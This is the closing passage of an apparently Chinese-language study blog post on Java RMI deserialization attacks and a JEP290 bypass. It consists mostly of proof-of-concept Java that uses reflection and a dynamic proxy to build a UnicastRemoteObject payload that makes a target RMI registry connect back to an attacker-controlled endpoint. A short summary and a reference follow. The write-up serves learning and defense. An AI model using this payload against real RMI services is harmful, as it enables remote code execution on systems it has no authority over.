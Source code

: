 ```java
        outputStream.writeObject("lingx5");
        outputStream.writeObject(getPayload());  // 发送payload
        ref.invoke(remoteCall);
        ref.done(remoteCall);

    }
    static UnicastRemoteObject getPayload(){
        UnicastRemoteObject unicastRemoteObject =null;
        try {
            // 创建一个TCPEndpoint对象，指定恶意主机的IP地址和端口号
            TCPEndpoint endpoint = new TCPEndpoint("127.0.0.1", 9999);
            LiveRef liveRef = new LiveRef(new ObjID(new Random().nextInt()), endpoint, false);
            UnicastRef unicastRef = new UnicastRef(liveRef);
            // 允许保存动态代理生成的类文件
            System.getProperties().put("sun.misc.ProxyGenerator.saveGeneratedFiles", "true");

            // 动态代理：创建一个实现RMIServerSocketFactory和Remote接口的代理对象
            RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(unicastRef);
            RMIServerSocketFactory factory = (RMIServerSocketFactory) Proxy.newProxyInstance(handler.getClass().getClassLoader(),
                    new Class[]{RMIServerSocketFactory.class,Remote.class},handler);
            Constructor<UnicastRemoteObject> constructor = UnicastRemoteObject.class.getDeclaredConstructor();
            constructor.setAccessible(true);
            unicastRemoteObject = constructor.newInstance();
            // 反射修改ssf的值
            Field declaredField = unicastRemoteObject.getClass().getDeclaredField("ssf");
            declaredField.setAccessible(true);
            declaredField.set(unicastRemoteObject,factory);

        } catch (Exception e) {
            System.out.println(e.getMessage());
        }
        return unicastRemoteObject;
    }
}
```

在后续版本的 jdk 也已经修复了，RemoteObjectInvocationHandler#invokeRemoteMethod

![image-20250309164959196](https://gitee.com/ling-x5/img/raw/master/image-20250309164959196.png)

## 总结

好啦！到这里 RMI 总算告一段落了 😄，自己在调试的过程中也踩了很多坑，将近花了一周多的时间，才慢慢研究完成。不过也学习到了不少东西，也算是小有收获 😊。文采一般，师傅们轻喷 😂。



## 参考文章

[JAVA RMI 反序列化攻击 & JEP290 Bypass 分析](https://xz.aliyun.com/news/8299)
